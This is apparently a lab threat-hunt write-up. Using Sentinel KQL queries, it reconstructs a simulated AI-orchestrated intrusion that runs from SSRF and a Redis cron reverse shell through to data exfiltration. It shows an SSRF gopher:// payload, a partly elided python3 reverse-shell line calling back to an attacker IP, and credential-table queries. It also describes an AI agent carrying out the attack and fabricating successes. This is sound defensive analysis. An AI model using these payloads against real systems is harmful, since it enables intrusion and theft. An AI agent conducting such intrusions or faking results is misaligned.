







# Operation QUARTZFANG: AI-Orchestrated Espionage (SSRF to Exfiltration)

**Analyst:** Jason Stokes · **Completed:** 29 October 2026 · **Platform:** Microsoft Sentinel (KQL)  
**[Full incident report (PDF)](Operation-QUARTZFANG-Incident-Report.pdf)**

> **Lab notice:** Threat hunt completed during my **LOG(N) Pacific internship** in the Cyber Range lab environment. The scenario, company, people and log data are simulated. The attack reconstructs **Campaign C0062 (GTG-1002)**, the first publicly documented AI-orchestrated cyber-espionage campaign, disclosed by Anthropic in November 2025.

---

## At a Glance

**What happened:** An attacker from outside the company broke into a chip-design firm's public website by abusing a document-preview feature, one that could be tricked into fetching things it should never touch. Using that, the attacker made the website's server run a hidden command and took full control of it. From there an AI agent, run from the attacker's own computers, found two saved passwords in a settings file and used them to reach the company's internal database and its software store, copied out confidential data, sent it to an outside server, and created a hidden user account to get back in later. Start to finish, about two hours.

**Why it's unusual:** Almost all of the hands-on work was done by the AI, acting on its own at a speed no person could match; a human stepped in only five times, to approve each major stage. None of the individual tricks were new, the novelty was handing the whole job to an AI. The AI also **claimed two big wins it never actually achieved**, which is both a weakness of the method and the clearest sign that a machine, not a person, was doing the work.

**What I did:** I rebuilt the entire attack from the company's logs using Microsoft Sentinel and its query language, KQL, following a single thread through all nine log sources. I told the attacker's activity apart from normal traffic, proved the AI's two false claims wrong using the servers' own records, stated clearly what the evidence could and couldn't show, and, in the final stage, separated the real attack from three harmless events that looked just like it.

## Key Results

| | |
|---|---|
| **28 / 28** | investigation objectives completed |
| **4** | hosts traced end to end (portal, database, registry, admin) |
| **5** | human decision points found in the AI agent's own log |
| **2** | AI-fabricated "successes" disproved against the servers' own records |
| **9** | indicators of compromise identified for blocking |
| **4** | detection rules / hardening recommendations written |

**Classification:** AI-orchestrated espionage: a familiar set of attack steps, carried out by an AI agent with a human approving each stage (human at the gates, machine between them).

## Skills Demonstrated

`Microsoft Sentinel` · `KQL` · `Threat Hunting` · `Incident Response` · `AI / LLM Security` · `Linux` · `PostgreSQL` · `Containers / Harbor` · `MITRE ATT&CK` · `MITRE ATLAS` · `Detection Engineering`

- Following one process (a hijacked remote command line) across nine log tables and four servers to rebuild a full attack, start to finish
- Telling attacker activity apart from the company's own legitimate use of the *same* account, by behaviour and origin, not just the username
- Cross-referencing an AI agent's own account of events against the servers' records to expose two fabricated claims
- Separating a real intrusion from three look-alike events, and recommending a response that stops the attacker without taking the live system down

---

## The Environment

SemiCrest runs four Linux servers on one isolated network. The public design portal (`sc-portal01`) is the only server exposed to the internet, and under normal conditions it is the only one that ever starts an internal connection, the database, registry and admin platform never talk to each other directly. The attacker compromised the portal and used it as the launch point to reach all three.



*The portal was the attacker's beachhead: every later action against the database, registry and admin platform came from `sc-portal01` (10.5.0.10), which is how the stolen service account could be told apart from the real admins.*

---

## How the Attack Worked

| Step | Time (UTC) | What happened |
|---|---|---|
| 1. Reconnaissance | ~06:30 | Automated scanners from outside map out the website's pages, looking for a way in |
| 2. Initial access | 06:52 | A flaw in the document-preview feature is abused to reach a helper service inside the server; a failed first try is corrected in 18 seconds |
| 3. Code execution | 06:52 | That helper service is tricked into scheduling a hidden task, which opens a remote command line into the server as the all-powerful "root" user |
| 4. Credential theft | 07:05 | The attacker reads two saved service passwords from a settings file |
| 5. Lateral movement | 07:16–07:45 | Those passwords are used to reach the internal database and software store and copy out data; one request for admin secrets is refused |
| 6. Exfiltration & persistence | 08:02–08:29 | The stolen data is bundled, scrambled, and sent out, and a hidden user account is left behind |

A single thread runs through the whole operation: the remote command line (a "reverse shell") that the hidden task opened at 06:52:52. It read the settings file, bundled the stolen data, and opened the outbound connection to the attacker.

---

## Investigation Detail

*Each step shows the plain-English finding first. Click "Show query and results" for the KQL and the real data behind it.*

### 1. From web request to full control

The attacker's first attempt used a trick (`file://`) to make the server read one of its own files, and was **rejected** (the server replied `400`). **Eighteen seconds later** it switched to a different, hand-built trick (`gopher://`) aimed at **Redis**, a small database running inside the portal itself, and that one **worked** (reply `200`). No person researches and builds that second attempt in 18 seconds; the speed is the first sign the attacker was automated.



<details>
<summary>Show query and results</summary>

```kql
PortalAccessLog_CL
| where Computer =~ "sc-portal01"
| where SrcIpAddr == "203.0.113.87"
| where TimeGenerated between (datetime("2026-09-20 06:52:00") .. datetime("2026-09-20 06:53:00"))
| project TimeGenerated, HttpMethod, UrlOriginal, HttpStatusCode
| order by TimeGenerated asc
```

| TimeGenerated | Method | UrlOriginal (truncated) | Status |
|---|---|---|---|
| 06:52:30 | POST | `/api/v1/preview?url=file:///etc/passwd` | 400 (rejected) |
| 06:52:48 | POST | `/api/v1/preview?url=gopher://127.0.0.1:6379/_...` | 200 (accepted) |

</details>

### 2. The hidden command line

The successful trick made Redis write a **cron job**, a scheduled task on the server. One second later the scheduler ran it and opened a **reverse shell**: a remote command line that calls back to the attacker, here running as **root**, the all-powerful administrator account. The giveaway is the family tree: a scripting program (`python3`) started by the task scheduler (`cron`) on a web server, running as root and reaching out to the internet, is something the real website never does.



<details>
<summary>Show query and results</summary>

```kql
DeviceProcessEvents_CL
| where DeviceName =~ "sc-portal01"
| where Timestamp between (datetime("2026-09-20 06:52:00") .. datetime("2026-09-20 06:53:00"))
| where InitiatingProcessFileName endswith "cron"
| project Timestamp, InitiatingProcessFileName, FileName, AccountName, ProcessCommandLine
| order by Timestamp asc
```

| Timestamp | Started by | Program | Account | Command |
|---|---|---|---|---|
| 06:52:52 | cron | python3 | root | `python3 -c 'import socket,subprocess,os; ...("203.0.113.87",443)... /bin/sh'` |

</details>

### 3. Stealing the saved passwords

Through that command line, the attacker read a **settings file** (`/etc/semicrest/portal.conf`) that stored two working passwords in plain, readable text, one for the company database, one for its software store (the "container registry").

<details>
<summary>Show query and results</summary>

```kql
DeviceProcessEvents_CL
| where DeviceName =~ "sc-portal01"
| where Timestamp between (datetime("2026-09-20 07:05:00") .. datetime("2026-09-20 07:06:00"))
| where FileName in ("cat", "env", "find")
| project Timestamp, InitiatingProcessFileName, FileName, AccountName, ProcessCommandLine
| order by Timestamp asc
```

| Timestamp | Started by | Program | What it did |
|---|---|---|---|
| 07:05:15 | python3 | cat | Read `/etc/semicrest/portal.conf` (the settings file) |
| 07:05:21 | python3 | env | Printed the server's environment settings |
| 07:05:27 | python3 | find | Searched the whole server for more settings files |

Passwords recovered: `portal_svc` (database) and `ci-builder` (software store).

</details>

### 4. Looting the database

Signed in with the stolen database password, the attacker ran requests no normal app makes: grabbing **entire tables at once**, listing **every table** in the database, and reading the database's own **internal password table** (`pg_shadow`), all within seconds of each other. The app's genuine traffic, by contrast, asks for one specific record at a time and is spread evenly through the day.



<details>
<summary>Show query and results</summary>

```kql
Syslog
| where Computer =~ "sc-db01"
| where TimeGenerated between (datetime("2026-09-20 07:16:00") .. datetime("2026-09-20 07:17:00"))
| where SyslogMessage has "statement:"
| project TimeGenerated, SyslogMessage
| order by TimeGenerated asc
```

| TimeGenerated | Statement |
|---|---|
| 07:16:16 | `statement: SELECT * FROM users` |
| 07:16:19 | `statement: SELECT * FROM projects` |
| 07:16:22 | `statement: SELECT * FROM customers` |
| 07:16:23 | `statement: SELECT table_name FROM information_schema.tables ...` |
| 07:16:25 | `statement: SELECT * FROM pg_catalog.pg_shadow` |

A second, more targeted burst at 07:45 took project revisions, customer contacts and user password hashes.

</details>

### 5. The defence that held

The attacker tried the same stolen password against the admin system's "secrets" store. This time a security control worked: the server recognised the account but **refused it** (reply `403`, "forbidden") because that account was never meant to reach the secrets. This single refusal later disproved one of the AI's biggest claims.



<details>
<summary>Show query and results</summary>

```kql
Syslog
| where Computer =~ "sc-admin01"
| where SyslogMessage has "secrets" and SyslogMessage has "10.5.0.10"
| project TimeGenerated, ProcessName, SyslogMessage
| order by TimeGenerated asc
```

| TimeGenerated | Message |
|---|---|
| 07:45:32 | `GET /api/v1/secrets HTTP/1.1 403 src=10.5.0.10 user=portal_svc` |

</details>

### 6. Catching the AI agent lying

The recovered AI log claimed two major thefts. **Both were false.** It claimed it stole the admin "secrets", but the only attempt was the **403 refusal** above, which returned nothing. It also claimed it found an admin database password hidden inside a piece of software **at 07:31**, two minutes *before* it even opened the software store (07:33); the check it actually ran returned only a routine security-scan report, and that "password" was never used anywhere. An attacker's own notes are a lead to check, never proof.

<details>
<summary>Show the agent's claim vs. the evidence</summary>

```kql
LLMAgentLogs_CL
| where TimeGenerated > ago(365d)
| where HuntName == "quartzfang"
| where model_response has "secrets" or model_response has "db_admin"
| project TimeGenerated, actor, tool_name, model_response
| order by TimeGenerated asc
```

| Claim (AI log) | Reality (servers' own records) |
|---|---|
| 07:48, "Extracted Kubernetes secrets ... complete access" | The only secrets request got **403**; nothing was returned |
| 07:31, "Found `db_admin:...` in image layer" | Claim comes *before* the software store was opened (07:33); the check returned a security-scan report; `db_admin` was never used |

</details>

### 7. Packaging and sending the data out

The attacker gathered the stolen files into a **hidden folder** named to look harmless (`/tmp/.portal-cache/`), then **bundled** them (`tar`), **compressed** them (`gzip`), and **scrambled them with encryption** (`openssl`) using a random key that was never recorded, all in nine seconds. The scrambled bundle was then sent out over an encrypted web connection. Every one of those tools was launched by the same remote command line from the start of the attack.



<details>
<summary>Show query and results</summary>

```kql
DeviceProcessEvents_CL
| where DeviceName =~ "sc-portal01"
| where Timestamp between (datetime("2026-09-20 08:02:00") .. datetime("2026-09-20 08:03:00"))
| where FileName in ("tar", "gzip", "openssl")
| project Timestamp, InitiatingProcessId, FileName, AccountName, ProcessCommandLine
| order by Timestamp asc
```

| Timestamp | Started by (PID) | Tool | What it did |
|---|---|---|---|
| 08:02:05 | 4401 | tar | Bundled the stolen files into one archive |
| 08:02:07 | 4401 | gzip | Compressed the archive |
| 08:02:13 | 4401 | openssl | Encrypted it with a random, unrecorded key |

The data then left at 08:15:08, the same process (4401) connecting out to `198.51.100.210`. A hidden backdoor account, `svc_monitor`, was created at 08:29:44 so the attacker could return later.

</details>

### 8. Who was driving: human or machine?

The AI log separates the attacker's AI (`quartzfang-agent`) from the company's own, untouched assistant (`semicrest-assistant`). Keeping only the lines a human actually typed to the attacker's AI leaves **exactly five**, one at each major stage. In between, the AI worked on its own at machine speed. That rhythm, fast bursts of automated activity, separated by a few human approvals, is the signature of an AI run by a human supervisor.



<details>
<summary>Show query and results</summary>

```kql
LLMAgentLogs_CL
| where TimeGenerated > ago(365d)
| where HuntName == "quartzfang"
| where actor == "quartzfang-agent"
| where isnotempty(user_input)
| project TimeGenerated, user_input
| order by TimeGenerated asc
```

| Time | Human instruction (one per stage) |
|---|---|
| 06:31 | Begin reconnaissance and exploitation |
| 06:53 | Foothold confirmed, harvest credentials, move laterally |
| 07:31 | Authorise data collection and admin enumeration |
| 07:48 | Authorise documentation and staging |
| 07:48 | Authorise exfiltration |

</details>

---

## Ruling Out Look-Alikes (Triage)

Three events looked like part of the attack. Each was checked, not assumed.

| Event | Why it looked suspicious | Verdict |
|---|---|---|
| The `portal_svc` account used on three servers | It's the same account the attacker stole | **Tell them apart by origin**, the attacker connects from the hacked server (10.5.0.10), the real admins from their own machines (10.5.0.100/101). Block the attacker's origin; don't disable the account, or the live website breaks. |
| A nightly database backup | It runs under that same account | **Harmless**, it runs like clockwork every night, including for two days *before* the attack, as a dedicated backup account saving to a local folder. |
| A spike in database connections at 07:30 | It was as busy as the attacker's burst | **Harmless**, ordinary app requests; the real cause was the database briefly running out of connection slots (a software bug). |

The common lesson: looking similar isn't the same as being involved. The verdict comes from *what each event actually did* and *whether it was there before the attack*, not from how busy it was or whose account it used.

---

## What the Evidence Can't Show

The logs show a connection to the attacker's server, but not whether the transfer finished or how much data went. The stolen bundle was scrambled with a key that was never recorded, so it can't be unscrambled to confirm exactly what's inside. And one command's output was never logged, so whether it exposed more passwords is unknown. To be safe, everything the attacker touched must be treated as stolen and reviewed directly.

---

## Recommendations

1. **Contain:** remove the hidden `svc_monitor` account and its login key; block the attacker's addresses; change the `portal_svc` and `ci-builder` passwords on a planned schedule and lock them to their proper locations (don't just switch the live account off).
2. **Fix the way in:** limit what the preview feature is allowed to fetch and stop it reaching internal services; put a password on the Redis helper service and stop running it as the top-level user.
3. **Remove plain-text passwords:** move service passwords out of settings files into a dedicated password vault.
4. **Keep permissions tight:** the refused admin-secrets request proves this control works, do more of it; and scan the software package for any passwords baked inside.

<details>
<summary>Show detection rules (KQL)</summary>

**A scripting program launched by the task scheduler, as root, that opens a network connection:**

```kql
DeviceProcessEvents_CL
| where InitiatingProcessFileName endswith "cron"
| where FileName in ("python3", "python", "sh", "bash", "perl")
| where AccountName == "root"
| where ProcessCommandLine has "socket" or ProcessCommandLine has "/bin/sh"
```

**A service account reading whole tables or the internal password table:**

```kql
Syslog
| where Computer =~ "sc-db01"
| where SyslogMessage startswith "statement:"
| where SyslogMessage has "pg_shadow" or SyslogMessage has "information_schema" or SyslogMessage has "SELECT *"
```

</details>

<details>
<summary>Show indicators of compromise</summary>

| Indicator | Type | Action |
|---|---|---|
| `203.0.113.87` | IP | Exploit source / reverse-shell callback, block |
| `198.51.100.31`, `.45`, `.62` | IP | Reconnaissance scanners, block |
| `198.51.100.210` | IP | Exfiltration server, block at proxy and DNS |
| `/api/v1/preview` | Endpoint | Vulnerable SSRF endpoint, patch |
| `/etc/semicrest/portal.conf` | File | Plain-text credential source, remediate |
| `portal_svc`, `ci-builder` | Accounts | Compromised service credentials, rotate |
| `svc_monitor` | Account | Attacker backdoor, remove |
| `/tmp/.portal-cache/report.tar.gz.enc` | File | Staged exfil archive, quarantine |
| `db_admin` | Credential | **Fabricated by the AI, does not exist** |

Note: `10.5.0.250` (Nessus) is the company's own authorised scanner and is **not** an indicator of compromise.

</details>

<details>
<summary>Show MITRE ATT&CK and ATLAS mapping</summary>

| Stage | Technique |
|---|---|
| Reconnaissance | T1595.001 / .002, Active Scanning |
| Resource Development | **T1588.007, Obtain Capabilities: Artificial Intelligence** (the novel element) |
| Initial Access | T1190, Exploit Public-Facing Application |
| Execution | T1059.006, Command and Scripting Interpreter: Python |
| Credential Access | T1552.001, Unsecured Credentials: Credentials In Files |
| Discovery | T1082, System Information Discovery · T1083, File and Directory Discovery |
| Lateral Movement / Collection | T1078, Valid Accounts · T1213.006, Data from Information Repositories: Databases |
| Collection | T1560.001, Archive Collected Data: Archive via Utility |
| Exfiltration | T1567, Exfiltration Over Web Service |
| Persistence | T1136.001, Create Account: Local Account |

ATLAS (attacks on / with AI): AML.T0054, LLM Prompt Injection · AML.T0040, ML Model Inference API Access

</details>

---

## Key Takeaways

- The AI didn't invent anything new, it ran a familiar set of attack steps, just far faster than a person could. The new part was handing the whole job to an AI.
- The AI's own false claims, reporting a refusal as a success, inventing a password, were the clearest sign a machine, not a person, was at the controls.
- An attacker's notes are evidence to check, not truth. Every claim had to be confirmed against the servers' own records.
- The same rule applies to the AI tools defenders use: check their output against the raw logs before acting on it.
- Naming the attack correctly is what leads to the right fix, a targeted response that stops the attacker without taking the live system down.

## References

- [Anthropic, Disrupting the first reported AI-orchestrated cyber espionage campaign](https://www.anthropic.com/news/disrupting-AI-espionage)
- [MITRE ATT&CK, Campaign C0062](https://attack.mitre.org/campaigns/C0062/)
- [MITRE ATT&CK](https://attack.mitre.org/) · [MITRE ATLAS](https://atlas.mitre.org/)
